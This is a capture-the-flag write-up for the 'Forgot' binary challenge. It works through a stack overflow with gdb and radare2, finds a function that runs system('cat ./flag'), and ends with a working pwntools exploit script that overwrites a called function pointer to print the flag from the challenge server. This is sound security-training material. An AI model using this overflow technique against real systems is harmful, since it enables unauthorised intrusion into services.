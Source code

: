 ### Solved by superkojiman and barrebas

Barrebas and I started working on this separately and ended up with a solution almost simultaneously. Forgot is a 32-bit ELF binary that asks for a name, and an email address to validate. We quickly found out that we could crash the binary by sending a large string for either the name or the email address:

```
# python -c 'print "A"*100' | ./forgot 
What is your name?
> 
Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

            Finite-State Automaton

I have implemented a robust FSA to validate email addresses
Throw a string at me and I will let you know if it is a valid email address

                Cheers!

I should give you a pointer perhaps. Here: 8048654

Enter the string to be validate
> Segmentation fault (core dumped)
```

I loaded the binary up in gdb and fed it a file with 100 "A"s:

```
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x41414141 ('AAAA')
EBX: 0x45 ('E')
ECX: 0x0 
EDX: 0x5 
ESI: 0x0 
EDI: 0x0 
EBP: 0xffea8078 --> 0x0 
ESP: 0xffea7fec --> 0x8048a67 (mov    eax,ds:0x804b060)
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xffea7fec --> 0x8048a67 (mov    eax,ds:0x804b060)
0004| 0xffea7ff0 --> 0xffea8000 ('A' <repeats 69 times>)
0008| 0xffea7ff4 --> 0xffea8000 ('A' <repeats 69 times>)
0012| 0xffea7ff8 --> 0xf7738c20 --> 0xfbad2088 
0016| 0xffea7ffc --> 0x0 
0020| 0xffea8000 ('A' <repeats 69 times>)
0024| 0xffea8004 ('A' <repeats 65 times>)
0028| 0xffea8008 ('A' <repeats 61 times>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
```

We can control EIP. Checking the stack trace, we see that the last function called was 0x08048a67

```
gdb-peda$ bt
#0  0x41414141 in ?? ()
#1  0x08048a67 in ?? ()
#2  0xf75caa63 in __libc_start_main () from /lib32/libc.so.6
#3  0x08048501 in ?? ()
```

Let's peek at what's around that area:

```
gdb-peda$ x/10i 0x08048a67-16
   0x8048a57:   inc    DWORD PTR [ebx+0x178246c]
   0x8048a5d:   mov    eax,DWORD PTR [esp+0x78]
   0x8048a61:   mov    eax,DWORD PTR [esp+eax*4+0x30]
   0x8048a65:   call   eax
   0x8048a67:   mov    eax,ds:0x804b060
   0x8048a6c:   mov    DWORD PTR [esp],eax
   0x8048a6f:   call   0x8048450 <fflush@plt>
   0x8048a74:   mov    ebx,DWORD PTR [ebp-0x4]
   0x8048a77:   leave  
   0x8048a78:   ret 
```

The call eax instruction looks promising. It's likely that we're overwriting eax with 0x41414141 which causes it to crash. This binary has NX enabled so we can't execute shellcode on the stack. Much like the Echo challenge, I assumed there was probably some function we could jump to. 

```
[0x080484e0]> afl
0x08048440     16   0  imp.printf
0x08048450     16   0  imp.fflush
0x08048460     16   0  imp.fgets
0x08048470     16   0  imp.puts
0x08048480     16   0  imp.system
0x08048490     16   0  imp.__gmon_start__
0x080484a0     16   0  imp.strlen
0x080484b0     16   0  imp.__libc_start_main
0x080484c0     16   0  imp.snprintf
0x080484d0     16   0  imp.__isoc99_scanf
0x080487aa    719   6  main
```

Looks like there's a call to system() happening somewhere. Poking around in radare2 we find it here:

```
[0x080484e0]> pd 50@0x080486cc
            0x080486cc    55           push ebp
            0x080486cd    89e5         mov ebp, esp
            0x080486cf    83ec58       sub esp, 0x58
            0x080486d2    c744240c9f8. mov dword [esp + 0xc], str.._flag  ; [0x8048d9f:4]=0x6c662f2e  ; "./flag" @ 0x8048d9f
            0x080486da    c7442408a68. mov dword [esp + 8], str.cat__s  ; [0x8048da6:4]=0x20746163  ; "cat %s" @ 0x8048da6
            0x080486e2    c7442404320. mov dword [esp + 4], 0x32        ; [0x32:4]=0x6001b  ; '2'
            0x080486ea    8d45c6       lea eax, [ebp - 0x3a]
            0x080486ed    890424       mov dword [esp], eax
            0x080486f0    e8cbfdffff   call sym.imp.snprintf
               sym.imp.snprintf()
            0x080486f5    8d45c6       lea eax, [ebp - 0x3a]
            0x080486f8    890424       mov dword [esp], eax
            0x080486fb    e880fdffff   call sym.imp.system
               sym.imp.system()
            0x08048700    c9           leave
            0x08048701    c3           ret
```

Now it looks like this calls system("cat ./flag") and prints it out to stderr. So all we have to do is setup our buffer such that EAX will contain 0x080486cc so that call eax will lead to giving us the flag.

The exploit:

```python
#!/usr/bin/env python
from pwn import *

r = remote("hack.bckdr.in", 8009)
print r.recv()

buf = ""
buf += "A"*63
buf += p32(0x080486cc)

r.send(buf + "\n")
print r.recvall()
```

Getting the flag: 

```text
# python forgot.py 
[+] Opening connection to hack.bckdr.in on port 8009: Done
What is your name?
> 
[+] Recieving all data: Done (365B)
[*] Closed connection to hack.bckdr.in port 8009

Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

            Finite-State Automaton

I have implemented a robust FSA to validate email addresses
Throw a string at me and I will let you know if it is a valid email address

                Cheers!

I should give you a pointer perhaps. Here: 8048654

Enter the string to be validate
> flag_goes_here_flag_goes_here_flag_goes_here_flag_goes_here_flag
```
